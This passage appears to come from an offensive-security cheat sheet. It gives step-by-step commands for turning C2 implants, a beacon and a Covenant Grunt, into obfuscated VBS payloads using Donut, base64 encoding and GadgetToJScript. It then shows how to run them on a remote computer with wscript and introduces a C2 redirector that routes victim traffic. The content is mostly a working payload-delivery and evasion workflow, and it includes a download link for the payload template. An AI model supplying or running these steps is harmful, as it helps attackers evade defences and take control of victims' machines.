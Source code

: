 ![b64var](src/images/b64var.png)

3. Compile with **GadgetToJScript**

```
GadgetToJScript.exe -b -w vbs -o beacon -c .\real.cs
```

4. Execute with `wscript.exe beacon.cs`

### Covenant Grunt
For covenant, since its already has its built in .NET generator. You can use donut to further obfuscate the assembly/

1. Generate **binary** from Covenant
2. Obfuscate and convert to byte array with **Donut**. It will then generate into .bin file.
```
donut.exe -f .\Grunt.exe
```
3. Convert .bin file to base64 and save to clipboard
```powershell
# save filepath to a variable
$filename='<file-path-to>\payload.bin'
# Convert file to base64 and save to clipboard
[Convert]::ToBase64String([IO.File]::ReadAllBytes($filename) | Clip
```
4. Download [this](https://gist.githubusercontent.com/3xpl01tc0d3r/ecf5e1ac09935c674a9c6939c694da13/raw/238ed3339a458ce0260f98dc18a38fdbed420457/Payload.txt) script, save as payload.cs (or anythin bcs no one cares) and replace the `b64` variable with our current clipboard
5. Convert payload.cs to vbs with **GadgetToJScript**
```
.\GadgetToJScript.exe -b -w vbs -o realtest -c .\real.cs
```
6. Execute on remote computer
```
wscript.exe .\realtest.vbs
```

# C2 Redirector
Instead of directly interacting victims and C2 server. This is actually a neat trick to just use a redirector to be a middle man and route all the C2 traffic to your C2 server (in your local network)
